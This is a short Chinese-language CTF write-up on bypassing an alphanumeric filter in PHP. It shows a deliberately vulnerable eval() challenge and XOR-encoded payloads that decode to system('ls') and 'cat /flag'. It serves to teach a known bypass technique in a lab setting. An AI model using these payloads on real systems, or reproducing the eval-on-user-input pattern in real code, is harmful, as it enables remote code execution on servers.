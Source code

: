 ## 特殊绕过

[TOC]

### xorRce(异或)

这里举一个例子，大概异或的实现流程就是这样

```php
<?php
echo urldecode("%01")."\n";
echo urldecode("%60")."\n";
echo urldecode("%01")^urldecode("%60");
```

![image-20241008164921422](https://gitee.com/bx33661/image/raw/master/path/image-20241008164921422.png)

发现是由一个不可见字符和反引号采取异或操作，最后得到的一个`a`字符

```python
#看一下这个过程：
%01
二进制编码：0000001
%60
二进制编码：1100000
异或后的结果：1100001-61-%61-a
```



#### Ns工坊一道题

> 好像是b神写的

```php
<?php
highlight_file(__FILE__);
$command=$_POST['cmd'];
if(isset($command)){
    if(!preg_match("/[A-Za-z0-9]+/i",$command)) {
        echo "welcome to RCE Lession 7";
        echo "<br>";
        eval($command);
    }
    else{
        die("what are you doing?");
    }
}
?>
```

字母数字全被过滤,这里使用文末一个佬的脚本

```php
#system("ls");
("%13%19%13%14%05%0d"^"%60%60%60%60%60%60")("%0c%13"^"%60%60");
#system("ls /");
("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%0c%0c%00%00"^"%60%7f%20%2f");
#cat /flag
("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%03%01%0b%00%00%06%0c%01%07"^"%60%60%7f%20%2f%60%60%60%60");
```
